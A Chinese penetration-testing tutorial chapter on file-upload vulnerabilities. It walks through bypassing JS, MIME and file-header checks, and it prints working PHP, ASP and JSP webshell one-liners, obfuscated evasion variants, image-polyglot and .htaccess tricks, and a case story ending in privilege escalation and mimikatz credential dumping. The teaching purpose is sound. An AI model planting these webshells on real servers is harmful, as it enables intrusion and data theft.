





# 第22章 文件上传漏洞基础

> **难度等级：🟢 简单级 → 🟡 中等级**
>
> **预计学习时间：150分钟**
>
> **本章看点：什么是文件上传漏洞、文件上传的危害、常见验证方式、一句话木马、WebShell管理工具、前端验证绕过、MIME绕过、文件头绕过**
>
> ::: tip 说明
> 恭喜你进入文件上传漏洞模块！
>
> 如果说SQL注入是"拖库之王"，
> XSS是"客户端之王"，
> 那文件上传就是"拿Shell最快的漏洞"。
>
> 为什么这么说？
> 因为只要能上传一个WebShell，
> 你就直接拿到了服务器的控制权。
>
> 一步到位，
> 就是这么刺激。
>
> 这一章，
> 我们就从最基础的开始，
> 什么是文件上传漏洞、
> 有什么危害、
> 常见的验证方式、
> 一句话木马是什么、
> 以及最基础的绕过方法。
>
> 准备好了吗？
> 让我们开始！
> :::

---

## 📖 本章概述

::: tip 写在前面
很多新手一听到"文件上传漏洞"，
就觉得很简单：
"不就是传个木马上去嘛！"

其实没那么简单。
真实环境中，
大部分网站都会做文件上传验证，
比如限制后缀名、
限制文件类型、
检查文件内容...

但是，
只要验证做得不严谨，
就有绕过的可能。

文件上传的绕过技巧非常多，
从简单到复杂，
各种姿势都有。

这一章我们先讲基础：
- 什么是文件上传漏洞
- 文件上传的危害
- 常见的验证方式
- 一句话木马和WebShell管理工具
- 前端验证绕过
- MIME类型绕过
- 文件头验证绕过

后面两章再讲更高级的绕过技巧。
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 知道什么是文件上传漏洞
- [x] 理解文件上传漏洞的危害
- [x] 了解常见的文件上传验证方式
- [x] 掌握一句话木马的原理
- [x] 知道常见的WebShell管理工具
- [x] 掌握前端验证绕过的方法
- [x] 掌握MIME类型绕过的方法
- [x] 掌握文件头验证绕过的方法
- [x] 能在DVWA上练习文件上传
- [x] 会使用基本的WebShell工具

---

## 🔍 什么是文件上传漏洞？

### 1.1 概念

**文件上传漏洞，就是网站允许用户上传文件，
但是对上传的文件没有做严格的验证和过滤，
导致攻击者可以上传恶意的脚本文件（比如PHP、ASP、JSP等），
然后通过访问这些文件执行代码，
从而控制服务器。**

简单说：
**能传木马，就能拿Shell。**

### 1.2 为什么会有文件上传漏洞？

很多网站都有文件上传功能：
- 头像上传
- 图片上传
- 附件上传
- 文档上传
- 视频上传
- ...

有上传的地方，
就可能有文件上传漏洞。

根本原因：
**对用户上传的文件验证不严格，
导致恶意脚本文件被上传并执行。**

### 1.3 文件上传的条件

要成功利用文件上传漏洞，
需要满足几个条件：

1. **能上传恶意文件**
   比如.php、.asp、.jsp等脚本文件

2. **上传的文件能被访问到**
   知道文件上传后的路径，
   并且能通过URL访问

3. **上传的文件能被执行**
   服务器会解析这个文件，
   执行里面的代码

三个条件缺一不可。

> 💡 **深入理解：为什么服务器会执行我上传的文件？**
>
> 这是文件上传漏洞最核心的问题。
>
> 举个通俗的例子：
> 你给公司门卫一份文件，
> 说"这是我的简历"。
> 门卫看了看文件名 `简历.txt`，觉得没问题，放进去了。
>
> 但实际上文件内容是一段程序代码。
> 后来某个人打开了这份"简历"，
> 程序自动运行了，
> 把公司服务器给控制了。
>
> 对应到网站：
> ```
> 你上传的文件：shell.php
>     ↓
> 服务器判断：嗯，是PHP文件，我认识（PHP解析器会处理.php文件）
>     ↓
> 服务器保存到：/uploads/shell.php
>     ↓
> 你访问：http://example.com/uploads/shell.php
>     ↓
> Web服务器（Apache/Nginx）：这是.php文件，交给PHP解析器
>     ↓
> PHP解析器：读取shell.php → 执行里面的代码！
>     ↓
> 你的代码在服务器上运行了！你拿到了WebShell！
> ```
>
> **关键理解：**
> 服务器不是"主动执行"你的文件。
> 而是当你访问 http://xxx/shell.php 时，
> Web服务器根据配置文件（比如Apache的配置），
> 看到 `.php` 后缀，
> 就去调用PHP解析器来处理这个文件。
> PHP解析器忠实地执行了文件里的每一行PHP代码。
>
> 所以：
> - `.jpg` 文件被访问时，服务器只是把它当二进制数据发回，不会执行
> - `.php` 文件被访问时，服务器会交给PHP解析器执行
>
> 攻击者的目标就是：
> **让服务器以为上传的是无害文件（如图片），
> 但访问时却把它当作脚本文件来执行。**
>
> 这就是为什么会有各种绕过方式——
> 前端验证绕过、MIME绕过、文件头绕过...
> 都是为了从不同角度"骗"服务器。
>
> 后面的章节会一一讲解这些绕过方法。

**图22-1 文件上传漏洞原理与三个条件图**



---

## 💥 文件上传漏洞的危害

文件上传漏洞的危害非常大，
可以说是Web漏洞里最直接、最危险的之一。

### 2.1 直接拿WebShell

这是最常见的。
上传一个WebShell，
就可以控制整个网站。

能做什么？
- 查看、修改、下载网站文件
- 查看数据库
- 执行系统命令
- 提权拿到服务器权限
- 内网渗透
- ...

基本上就是为所欲为了。

### 2.2 挂黑页、挂马

把网站首页改成黑客的"炫耀页"，
或者挂上木马、
病毒、
钓鱼页面...

### 2.3 偷数据

网站的数据库、
用户信息、
业务数据...
全都能被偷走。

### 2.4 提权拿服务器

从WebShell提权到系统权限，
控制整台服务器。

然后可以：
- 挂在肉鸡
- 挖矿
- 当跳板攻击内网
- ...

### 2.5 危害等级

为什么说文件上传危险？
因为它直接导致代码执行，
而且利用门槛低，
成功率高。

在漏洞危害评级里，
文件上传一般都是**高危**甚至**严重**。

**图22-2 文件上传漏洞危害全景图**



---

## 🛡️ 常见的文件上传验证方式

网站一般会怎么验证上传的文件呢？

### 3.1 前端验证（JS验证）

用JavaScript在前端检查文件后缀名，
比如只能传.jpg、.png、.gif。

这种最容易绕过，
因为前端验证是可以被修改的。

### 3.2 MIME类型验证

检查HTTP请求里的`Content-Type`字段，
比如`image/jpeg`、`image/png`。

这个也很容易绕过，
因为Content-Type是客户端发送的，
可以伪造。

### 3.3 文件后缀名验证

检查文件的后缀名，
比如只允许.jpg、.png、.gif。

这是最常见的验证方式，
也是绕过方法最多的。

后缀名验证又分两种：
- **黑名单**：禁止某些后缀（比如.php、.asp）
- **白名单**：只允许某些后缀（比如.jpg、.png）

一般来说，
白名单比黑名单安全，
但是也不一定完全安全。

### 3.4 文件头验证

检查文件开头的几个字节，
判断是不是真的图片。

比如：
- JPG文件开头是`FF D8 FF`
- PNG文件开头是`89 50 4E 47`
- GIF文件开头是`47 49 46 38`

这种也可以绕过，
比如制作图片马。

### 3.5 文件内容检测

更严格的会检查文件内容，
比如用PHP的`getimagesize()`函数，
或者检测有没有`<?php`标签。

这种绕过起来麻烦一些，
但也不是完全没办法。

### 3.6 其他验证

还有一些其他的验证方式：
- 文件大小限制
- 文件名长度限制
- 文件名重命名（随机命名）
- 文件路径限制
- 二次渲染
- ...

验证方式越多，
越难绕过，
但也不是不可能。

**图22-3 常见文件上传验证方式分类图**



---

## 🐴 一句话木马是什么？

讲文件上传，
必须先讲一句话木马。
这是文件上传漏洞最基础的利用方式。

### 4.1 什么是一句话木马？

**一句话木马，就是只有一行代码的WebShell。**
短小精悍，
只有一行，
但是功能强大。

为什么叫"一句话"？
因为真的只有一句话。

### 4.2 PHP一句话木马

最经典的PHP一句话：

```php
<?php @eval($_POST['cmd']); ?>
```

我们来拆解一下：
- `<?php ... ?>`：PHP标签
- `@`：错误控制符，出错不显示
- `eval()`：把字符串当PHP代码执行
- `$_POST['cmd']`：接收POST参数cmd的值

> 💡 **深入理解：eval() 凭什么这么危险？**
>
> 很多同学看到 `eval()` 觉得很普通，不就一个函数吗？
>
> 但其实 `eval()` 是编程语言中最危险的函数之一。
> 它的特殊之处在于：**它把"数据"变成了"代码"。**
>
> 正常情况：
> ```
> $x = $_POST['name'];   // 获取用户输入："张三"
> echo "你好，" . $x;      // 输出：你好，张三
> ```
> `$x` 的内容永远是"数据"，只被显示，不被执行。
>
> eval的情况：
> ```
> eval($_POST['cmd']);    // 用户输入："phpinfo();"
> ```
> eval把字符串 `"phpinfo();"` 当成PHP代码来执行！
> PHP解析器执行了 `phpinfo()` 函数，输出了系统信息。
>
> **这就是从"数据"到"代码"的质变！**
>
> 当你用蚁剑/菜刀连接一句话木马时，
> 工具会自动发送各种PHP代码：
> - `phpinfo();` → 获取系统信息
> - `system('whoami');` → 执行系统命令
> - `file_get_contents('/etc/passwd');` → 读系统文件
> - `scandir('/var/www/html');` → 列目录
>
> 每一行代码都在服务器上真正运行了！
>
> 所以一句话木马虽然只有一句话，
> 但它相当于在服务器上开了个"后门"——
> 只要你敲门（发POST请求），
> 说对话（传PHP代码），
> 门就开了（代码被执行）。
>
> 这就是为什么文件上传漏洞如此危险：
> **一句话木马 = 你拥有了一台服务器的PHP解释器远程使用权。**

**原理：**
你给它发一个POST请求，
参数名叫`cmd`，
参数值是你要执行的PHP代码，
它就会帮你执行。

比如：
POST /shell.php
```
cmd=phpinfo();
```
就会执行`phpinfo();`。

### 4.3 其他语言的一句话木马

**ASP一句话：**
```asp
<% eval request("cmd") %>
```

**ASPX一句话：**
```aspx
<%@ Page Language="Jscript"%>
<%eval(Request.Item["cmd"],"unsafe");%>
```

**JSP一句话：**
```jsp
<%
    if(request.getParameter("cmd")!=null){
        Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
%>
```

（JSP的一句话稍微复杂一点，
一般会用更完整的WebShell。）

### 4.4 一句话木马的变形

一句话木马有很多变形，
用来绕过检测：

```php
// 用assert代替eval
<?php @assert($_POST['cmd']); ?>

// 用call_user_func
<?php @call_user_func($_POST['func'], $_POST['arg']); ?>

// 用base64解码
<?php @eval(base64_decode($_POST['cmd'])); ?>

// 拼接
<?php 
    $a = 'e' . 'v' . 'a' . 'l';
    @$a($_POST['cmd']); 
?>

// 不用<?php标签
<script language="php">@eval($_POST['cmd']);</script>
```

变形非常多，
后面绕过篇我们会详细讲。

### 4.5 一句话木马怎么用？

**方法1：手工用**
用BurpSuite或者curl发POST请求，
手动执行命令。
比较麻烦，适合测试。

**方法2：用工具连**
用WebShell管理工具连接，
图形化界面，
操作方便。
这是最常用的方式。

**图22-4 一句话木马工作原理时序图**

```mermaid
sequenceDiagram
    participant Attacker as 攻击者
    participant Server as 服务器
    participant Shell as shell.php
    Note over Shell: <?php @eval($_POST['cmd']); ?>

    Attacker->>Server: POST /shell.php
    Note over Attacker,Server: 参数 cmd=phpinfo();
    Server->>Shell: 加载并解析 shell.php
    Shell->>Shell: @eval($_POST['cmd'])
    Note over Shell: 执行 phpinfo();
    Shell-->>Server: 执行结果
    Server-->>Attacker: 返回phpinfo页面

    Note over Attacker: 拆解说明
    Note over Shell: <?php ?> PHP标签<br/>@ 错误控制符 不显示错误<br/>eval 把字符串当PHP执行<br/>$_POST['cmd'] 接收POST参数cmd
```

---

## 🛠️ WebShell管理工具

有了一句话木马，
怎么管理呢？
用工具啊！

常见的WebShell管理工具有这些：

### 5.1 中国菜刀（Chopper）

**中国菜刀**，
老牌的WebShell管理工具。
经典中的经典。

功能：
- 文件管理
- 虚拟终端（执行命令）
- 数据库管理

支持PHP、ASP、ASPX。

但是比较老了，
而且容易被杀软检测。

### 5.2 蚁剑（AntSword）

**蚁剑**，
中国菜刀的开源升级版。
功能更强大，
界面更好看。

特点：
- 开源免费
- 跨平台（Windows、Mac、Linux）
- 插件丰富
- 支持自定义编码器/解码器
- 支持多种绕过方式

支持的语言也更多：
PHP、ASP、ASPX、JSP、Python...

现在很多人都用蚁剑。

### 5.3 哥斯拉（Godzilla）

**哥斯拉**，
后起之秀，
功能非常强大，
而且免杀效果好。

特点：
- 支持多种脚本类型
- 支持多种加密方式
- 内置很多功能模块
- 内存Shell
- 免杀效果好
- 支持代理转发

哥斯拉比菜刀、蚁剑更现代，
也更强大。

### 5.4 冰蝎（Behinder）

**冰蝎**，
也是一款优秀的WebShell管理工具。
特点是动态二进制加密，
流量加密，
免杀效果好。

特点：
- 动态加密
- 支持PHP、Java、ASPX
- 内置很多功能
- 免杀效果不错

### 5.5 工具对比

| 工具 | 优点 | 缺点 | 推荐度 |
|------|------|------|--------|
| 中国菜刀 | 经典、简单 | 老、容易被检测 | ⭐⭐ |
| 蚁剑 | 开源、功能多、插件多 | 流量特征明显 | ⭐⭐⭐⭐ |
| 哥斯拉 | 功能强、免杀好 | 稍微复杂一点 | ⭐⭐⭐⭐⭐ |
| 冰蝎 | 加密好、免杀好 | 功能比哥斯拉少一点 | ⭐⭐⭐⭐ |

新手的话，
推荐从蚁剑开始，
简单易用，
功能也够。
后面再研究哥斯拉、冰蝎。

### 5.6 怎么用？

基本流程都是一样的：

1. 上传一句话木马到目标服务器
2. 打开WebShell管理工具
3. 添加Shell，填URL和密码
4. 连接成功后就可以管理了

连接成功后，
你就可以：
- 浏览文件、上传下载
- 执行系统命令
- 管理数据库
- 提权
- 内网穿透
- ...

就像远程桌面一样方便。

**图22-5 WebShell管理工具对比图**



> ⚠️ 重要提醒：
> 这些工具只能用来做授权的渗透测试！
> 不要用来攻击别人的网站！
> 违法的事情不能做！
> 学习的话，
> 自己搭靶场自己玩。

---

## 🚪 前端验证绕过

好了，
基础概念讲完了，
开始讲绕过。

第一个，
也是最简单的：
前端验证绕过。

### 6.1 什么是前端验证？

有些网站用JavaScript在前端验证文件后缀，
比如只能传.jpg、.png。

你选一个.php文件，
它直接在前端就给你拦截了，
根本不发请求到服务器。

这种验证就是个纸老虎，
因为前端的代码是用户可控的。

### 6.2 绕过方法

前端验证的绕过方法非常多，
我给你列举几种：

**方法1：改后缀名**
1. 把木马文件后缀改成.jpg（比如shell.jpg）
2. 上传的时候，用BurpSuite抓包
3. 把文件名改回.php
4. 放行

这样前端检查的时候是.jpg，
能通过，
但是实际传到服务器的是.php。

**方法2：禁用JavaScript**
在浏览器里禁用JS，
前端验证就失效了。
（不过有些网站禁用JS就用不了了）

**方法3：浏览器控制台修改**
按F12打开开发者工具，
找到验证的JS代码，
直接改掉或者删掉。

**方法4：直接构造请求**
不用浏览器的上传表单，
自己用BurpSuite或者curl构造上传请求，
直接发给服务器。

### 6.3 实战演示（思路）

1. 准备一个PHP一句话木马，命名为`shell.php`
2. 打开上传页面，选择shell.jpg（先改成jpg后缀）
3. 打开BurpSuite，开代理
4. 点击上传，抓包
5. 在Burp里把文件名从`shell.jpg`改成`shell.php`
6. 放包
7. 访问上传后的路径，测试能不能执行

就这么简单。

> 经验之谈：
> **前端验证完全不可信，
> 任何前端验证都可以被绕过。
> 安全验证必须在后端做。**

---

## 📝 MIME类型验证绕过

第二个常见的验证：
MIME类型验证。

### 7.1 什么是MIME类型？

MIME（Multipurpose Internet Mail Extensions），
多用途互联网邮件扩展类型。
简单说，
就是用来表示文件类型的一种标识。

比如：
- JPG图片：`image/jpeg`
- PNG图片：`image/png`
- GIF图片：`image/gif`
- HTML文件：`text/html`
- PHP文件：`application/x-httpd-php`
- ...

文件上传的时候，
HTTP请求里会有一个`Content-Type`字段，
告诉服务器这个文件是什么类型。

### 7.2 MIME验证是什么？

有些服务器会检查请求里的`Content-Type`，
如果不是允许的类型（比如不是image/开头的），
就拒绝上传。

比如：
```
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-httpd-php
```
这个Content-Type是PHP的，
如果服务器只允许image/jpeg，
就会被拦截。

### 7.3 怎么绕过？

很简单，
把Content-Type改成允许的类型不就行了！

比如改成：
```
Content-Type: image/jpeg
```

或者：
```
Content-Type: image/png
```

或者：
```
Content-Type: image/gif
```

因为Content-Type是客户端发送的，
你想改成什么就改成什么。

服务器只看Content-Type字段，
它就以为这是图片了。

### 7.4 实战演示（思路）

1. 准备PHP一句话木马`shell.php`
2. 上传，BurpSuite抓包
3. 找到Content-Type字段
4. 把`application/x-httpd-php`改成`image/jpeg`
5. 放包
6. 访问上传后的文件，测试

搞定！

> 注意：
> MIME类型验证也是不可靠的，
> 因为它是客户端提供的，
> 可以任意伪造。
> 不能作为主要的验证手段。

---

## 🖼️ 文件头验证绕过（图片马）

第三个，
文件头验证。
这个比前两个稍微高级一点。

### 8.1 什么是文件头验证？

文件头，
就是文件开头的几个字节，
也叫"文件幻数"（Magic Number）。

每种类型的文件，
开头的几个字节一般是固定的。

比如：
- **JPEG/JPG**：开头是 `FF D8 FF E0` 或 `FF D8 FF E1`
- **PNG**：开头是 `89 50 4E 47 0D 0A 1A 0A`（也就是`‰PNG\r\n\x1a\n`）
- **GIF**：开头是 `47 49 46 38`（也就是"GIF8"）
- **BMP**：开头是 `42 4D`（也就是"BM"）

有些服务器会检查文件开头的几个字节，
判断是不是真的图片。
如果不是图片格式，
就不让上传。

### 8.2 怎么绕过？

简单，
在木马文件前面加上图片的文件头不就行了！

这样文件开头是图片头，
能通过检查，
但是后面还是PHP代码，
服务器解析的时候还是会执行PHP代码。

这就是**图片马**。

### 8.3 制作图片马

怎么制作图片马呢？

**方法1：直接追加**

Windows下用cmd：
```cmd
copy /b 图片.jpg + 木马.php 图片马.jpg
```

Linux下用命令：
```bash
cat 图片.jpg 木马.php > 图片马.jpg
```

原理：
把图片文件和木马文件拼接在一起，
图片在前，
木马在后。

这样文件开头是图片头，
能通过文件头检查，
但是后面有PHP代码，
能被解析执行。

**方法2：手动加文件头**

用十六进制编辑器（比如010 Editor、WinHex），
在PHP文件最前面加上图片的文件头。

比如加GIF的文件头：
```
GIF89a<?php @eval($_POST['cmd']); ?>
```
GIF的文件头是`GIF89a`（6个字节），
直接写在PHP代码前面就行。

或者在PHP里用header输出：
```php
<?php
    header('Content-Type: image/gif');
    // 或者直接输出GIF头
    echo "GIF89a";
    @eval($_POST['cmd']);
?>
```

### 8.4 图片马怎么利用？

图片马上传上去了，
但是后缀是.jpg，
服务器会直接当图片返回，
不会执行PHP代码。

那怎么办？

这就要结合其他漏洞了，
比如：
- **文件包含漏洞**：包含这个图片马，就能执行
- **解析漏洞**：比如Apache的解析漏洞，`shell.jpg.php`会被当成PHP执行
- **.htaccess**：上传一个.htaccess文件，让.jpg被PHP解析
- **改后缀名**：如果后缀验证不严，改成`shell.php.jpg`之类的

如果只有文件头验证，
没有后缀验证，
那直接传.php就行，
在前面加个文件头。

### 8.5 实战演示（思路）

1. 准备一张正常的图片`test.jpg`
2. 准备一句话木马`shell.php`
3. 合成图片马：`copy /b test.jpg + shell.php shell.jpg`
4. 上传shell.jpg
5. 如果能上传成功，再想办法让它执行
   - 比如结合文件包含
   - 或者看有没有解析漏洞
   - 或者上传.htaccess

> 注意：
> 单纯的文件头验证一般不够，
> 通常都会结合后缀验证。
> 所以图片马经常要和其他绕过方法配合使用。

**图22-6 三种基础绕过方法对比图**



> 💡 **深入理解：.htaccess 是什么？为什么它能帮我们执行图片马？**
>
> `.htaccess` 是 Apache 服务器的"分布式配置文件"。
> 你可以在网站的任何目录下放一个 `.htaccess` 文件，
> Apache 访问那个目录时就会读取并应用里面的配置。
>
> **.htaccess 权限覆盖攻击的原理：**
>
> 正常情况：
> ```
> Apache配置：.php文件 → 交给PHP解析器处理
>            .jpg文件 → 直接返回二进制数据，不解析
> ```
>
> 攻击者上传 `.htaccess` 文件到 uploads 目录，内容是：
> ```apache
> AddType application/x-httpd-php .jpg
> ```
> 这条配置的意思是："在这个目录下，把 `.jpg` 文件也当成 PHP 来解析！"
>
> 攻击链条：
> 1. 上传 `.htaccess` 文件（含 `AddType application/x-httpd-php .jpg`）
> 2. 上传图片马 `shell.jpg`（GIF89a + PHP代码）
> 3. 访问 `http://xxx/uploads/shell.jpg`
> 4. Apache 读取 `.htaccess` → 发现 `.jpg` 要当 PHP 解析
> 5. Apache 调用 PHP 解析器处理 `shell.jpg`
> 6. PHP 解析器跳过前面的 GIF89a（它不认识），执行后面的 `<?php @eval(...) ?>`
> 7. WebShell 到手！
>
> 这就是 `.htaccess` 的神奇之处：
> **它能在服务器上"篡改规则"，让原本无害的文件变成可执行的脚本。**
>
> 当然，这个攻击的前提是：
> - 服务器用的是 Apache（Nginx 不支持 .htaccess）
> - 允许上传 `.htaccess` 文件（服务器配置允许覆盖）
> - 上传目录有 PHP 执行权限

> 💡 **深入理解：%00 截断是怎么绕过后缀验证的？**
>
> 有一种经典的文件上传绕过叫做 **%00 截断**（Null Byte 注入）。
>
> 它的原理利用了 C 语言的字符串处理特性：
> 在 C 语言中，字符串以 `\0`（即 0x00，空字节）结尾。
>
> 攻击场景：
> ```
> 服务器用 C 语言底层函数检查后缀：
>    文件名 = "shell.php%00.jpg"
>    
>    strrchr(文件名, '.') → 找到最后一个 '.' 后面是 "jpg"
>    → 判断：后缀是 jpg！允许上传！
>    
> 但 PHP 的文件创建函数：
>    创建文件时，遇到 %00（空字节，即 \0），认为字符串结束！
>    → 实际创建的文件名：shell.php（后面的%00.jpg 被截掉了！）
> ```
>
> 就这样：
> - 后缀检查函数看到的是 `.jpg` → 放行
> - 文件系统创建的文件是 `.php` → 可被执行
>
> 这就是 **"两个函数对同一字符串的理解不一致"** 导致的漏洞，
> 本质上和宽字节注入是一类问题——**编码/解析差异**。
>
> 不过现在 PHP 高版本已经修复了这个问题（文件名中的 %00 会直接报错），
> 但在老系统或特定条件下仍可能出现。
> 了解它，是为了理解"不同层的解析差异会产生漏洞"这个通用原理。

---

## 📚 案例讲解

### 案例1：最基础的文件上传（无验证）

小明刚学文件上传，
在DVWA上练手，
难度Low。

页面是一个图片上传功能，
他想：
"我直接传个PHP马上去行不行？"

他准备了一个`shell.php`，
内容是：
```php
<?php @eval($_POST['cmd']); ?>
```

点击上传，
居然成功了！
页面显示上传成功，
还给了路径：
`../../hackable/uploads/shell.php`

他访问了一下这个路径，
页面是空白的，
说明PHP解析了（没有报错）。

然后他打开中国菜刀，
添加了这个Shell，
密码是`cmd`。
一点连接，
成功了！

他看到了服务器的文件列表，
可以上传下载文件，
可以执行命令...

"原来文件上传这么简单啊！"
小明激动地说。

但是他不知道，
这是最简单的情况，
Low难度嘛，
就是让你入门的。
真实环境哪有这么容易。

> 老K说：
> **"无验证的上传当然简单，
> 但真实环境中很少见。
> 大部分都有各种验证，
> 你得学会绕过。
>
> 这只是第一步，
> 后面还有更多挑战等着你。"**

### 案例2：前端JS验证绕过

小李做渗透测试，
目标网站有个头像上传功能。

他测试了一下，
选PHP文件的时候，
浏览器直接弹了个框：
"只能上传jpg/png/gif格式的图片！"

请求都没发出去。

"前端验证？"
小李笑了。

这还不简单？

他打开BurpSuite，
开代理。
然后把木马文件改名为`shell.jpg`，
选中，点击上传。

Burp抓到了包，
他在包里把文件名`shell.jpg`改成`shell.php`，
然后放包。

上传成功！
返回了路径。

他访问了一下，
PHP成功执行。

一个前端验证，
轻松绕过。

"前端验证就是纸老虎，
根本防不住。"
小李说。

然后他又试了试用蚁剑连接，
成功拿到WebShell。

> 经验总结：
> **前端验证是给普通用户用的，
> 不是给攻击者用的。
> 任何前端验证都可以被绕过。
> 安全验证必须放在后端做。**
>
> 做渗透测试的时候，
> 遇到前端验证不用慌，
> 抓包改一下就好了。

### 案例3：MIME类型验证绕过

小王做CTF题，
遇到一道文件上传的题。

他试了试传PHP文件，
返回"文件类型错误，请上传图片！"

他抓包看了看，
请求里的Content-Type是：
```
Content-Type: application/x-httpd-php
```

"哦，MIME类型验证。"
小王心想。

那简单，
把Content-Type改成`image/jpeg`不就行了。

他在Burp里改了一下：
```
Content-Type: image/jpeg
```

然后放包。

"上传成功！"
页面显示。

他访问了一下上传后的文件，
PHP代码成功执行。

就这么简单。

小王又试了试改成`image/png`、`image/gif`，
都能成功。

"MIME类型验证也是纸老虎，
毕竟是客户端发的，
想改啥改啥。"

然后他用蚁剑连上去，
拿到了flag。

> 知识点：
> **MIME类型（Content-Type）是客户端提供的，
> 可以任意伪造，
> 不能作为安全验证的依据。**
>
> 很多开发者以为检查Content-Type就够了，
> 其实大错特错。

### 案例4：文件头验证 + 图片马

小张做渗透测试，
目标网站的上传功能比较严格。

他测试了一下：
- 传PHP文件，不行
- 改MIME类型，也不行
- 改后缀为.jpg，能传上去，但是不执行

"那怎么办？"

他又测试了一下文件头验证。
他在PHP文件最前面加了`GIF89a`：
```
GIF89a<?php @eval($_POST['cmd']); ?>
```
然后命名为`shell.php`，上传。

居然上传成功了！

说明服务器只检查了文件头，
没有检查后缀？
不对啊，
刚才传纯PHP文件不行的。

哦，不对，
他再仔细一看，
服务器是既检查文件头，
也检查后缀。
但是如果后缀是.php，
就算有文件头也不行？
不对，刚才明明成功了...

哦，原来这个服务器的逻辑是：
**先检查文件头，如果是图片格式，就允许上传，不管后缀。**

所以只要文件头是图片的，
就算后缀是.php也能传上去。

这就好办了！

小张上传成功后，
访问那个文件，
PHP代码成功执行！
因为后缀是.php，
服务器会解析。

一个文件头验证，
就这么绕过了。

"原来还能这样..."
小张学到了。

然后他用哥斯拉连上去，
拿到了WebShell。

> 思路总结：
> **文件头验证可以用图片马绕过。**
>
> 关键是看验证逻辑：
> - 是只检查文件头？
> - 还是文件头和后缀都检查？
> - 检查的严格程度如何？
>
> 不同的验证逻辑，
> 绕过方法也不一样。
> 多试试，
> 总能找到办法。

### 案例5：从文件上传到服务器控制

老周做渗透测试，
目标是一个企业的官网。

信息收集阶段，
他发现网站有个"员工风采"的栏目，
可以上传照片。

他测试了一下上传功能：
- 前端有JS验证（轻松绕过）
- 后端检查MIME类型（改Content-Type绕过）
- 检查文件头（做个图片马绕过）
- 后缀是黑名单，但是有疏漏

最后他成功上传了一个PHP木马，
拿到了WebShell。

但是这只是开始。

接下来：
1. **信息收集**
   - 看了看网站的目录结构
   - 找到了数据库配置文件
   - 拿到了数据库账号密码

2. **数据库操作**
   - 连上了数据库
   - 拿到了管理员的账号密码（哈希）
   - 破解了几个管理员密码

3. **提权**
   - 看了看系统信息
   - 发现有个内核漏洞可以利用
   - 用MSF生成提权EXP
   - 上传执行，成功提权到System

4. **内网信息收集**
   - 发现这是台域内机器
   - 用mimikatz抓了密码哈希
